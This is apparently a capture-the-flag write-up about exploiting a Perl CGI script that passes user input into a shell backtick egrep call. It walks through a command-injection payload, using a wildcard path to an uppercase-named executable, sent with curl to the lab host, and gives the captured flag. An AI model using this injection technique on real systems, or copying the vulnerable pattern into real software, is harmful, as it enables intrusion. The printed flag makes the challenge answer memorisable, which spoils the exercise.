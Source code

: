 
# Exploit a substitution command in Perl

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; # Retrieve 2nd arg.
  $xx = $_[0]; # Retrieve 1st arg.
  $xx =~ tr/a-z/A-Z/; # Transform all letters to Uppercase.
  $xx =~ s/\s.*//; # Delete all content after the first whitespacein$xx.
  
	# egrep takes as argument a regex pattern for the file /tmp/xd
	@output = `egrep "^$xx" /tmp/xd 2>&1`;
	# This line is vulnerable, because with a code injection we
	# can place a substitution command.

  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

I started by testing this line, which works successfully

```
egrep "^`echo test > /tmp/test`" /tmp/xd 2>&1
```

Then the idea was to put everything in an environment variable. So I get this:

```
export TEST=”\`echo test > /tmp/test\`”
```
```
`egrep "^$TEST" /tmp/xd 2>&1`
```

Except that the problem is that here, the search **egrep** uses the literal value of the variable **$TEST**. It would have been necessary to make a manipulation with eval to get there.

Let’s go back to the idea of the beginning, but instead of placing a command, let’s put an executable.

Create a **`MAJEXEC`** file, apply a chmod to make it executable.

```bash
getflag > /tmp/token
```

Why do we need a wildcard: `/*/`  ? Simply because if we put the absolute path, it will be put in SHIFT, so invalid.

```bash
curl 'localhost:4646?x="`/*/MAJEXEC`"'
```

> Flag : `g1qKMiRpXf53AWhDaU7FEkczr`
